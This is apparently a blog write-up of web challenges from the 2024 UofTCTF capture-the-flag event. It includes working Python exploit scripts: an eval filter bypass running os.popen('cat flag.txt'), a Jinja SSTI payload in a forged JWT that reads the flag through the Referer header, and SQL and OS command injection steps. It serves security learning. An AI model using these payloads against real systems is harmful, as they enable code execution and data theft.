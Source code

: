 ```yaml
---
title: "U of T CTF"
date: 2024-01-14 00:08:00 +0800
categories: [Jeopardy-CTF]
tags: [web, ctf, sqli, ssti, python, idor, cmd-injection]
image:
  path: /banners/uoftctf.png
---
```


> Description : he University of Toronto is hosting its second inaugural Capture the Flag competition. It will be jeopardy-style, held online with categories such as Web, Pwn, Rev, Crypto, Misc, and more! There will be plenty of challenges for both beginner and experienced players. The team size is limited to 4 players per team. This competition is organized by UofTCTF, GDSC (UTM), and MCSS (UTM) and sponsored by AON, UofT Department of Computer Science, UofT Information Security and Enterprise Architecture, LetsDefend.io
{: .prompt-info }




| Name       | uoftctf                |
|------------|------------------------|
| URL        | [UofTCTF](https://play.uoftctf.org/), [Ctf-Time](https://ctftime.org/event/2219) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



## 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Solution

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

```bash
❯ echo 'dW9mdGN0ZntZMFVSIFBpdGNoIElTIDcwTyBIITlIfQ==' |base64 -d
uoftctf{Y0UR Pitch IS 70O H!9H}%  
```

## 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

## 3. No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


## 4. Guestbook - Hidden Flag

### Solution

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

## 5.  My First App - JWT / SSTI
### Solution
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
  PY:

  ```python
  #!/usr/bin/env python3
import jwt
import requests
from bs4 import BeautifulSoup

secret_key = 'torontobluejays'
username = """
{\{lipsum|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))(request.referrer.split().pop(2))|attr(request.referrer.split().pop(3))(request.referrer.split().pop(4))|attr(request.referrer.split().pop(5))()}}
"""

pay = """__globals__ __getitem__ os popen cat${IFS}flag.txt read """


def genJWT(username):
    payload = {
        "username": username,
}
    token = jwt.encode(payload, secret_key, algorithm='HS256')
    return token


jwt_token = genJWT(username)
print(jwt_token)

url = "https://uoftctf-my-first-app.chals.io:443/?test="
cookies = {"auth_token": jwt_token}

headers = {"referer": pay}
response = requests.get(url,headers=headers, cookies=cookies)
#response = requests.get(url,headers=headers, cookies=cookies, proxies=proxies)
cont = response.text


s = BeautifulSoup(cont, 'html.parser')
cov = s.find('div', class_='container')

if cov:
    print(cov.prettify())
else:
    print(cont)
```
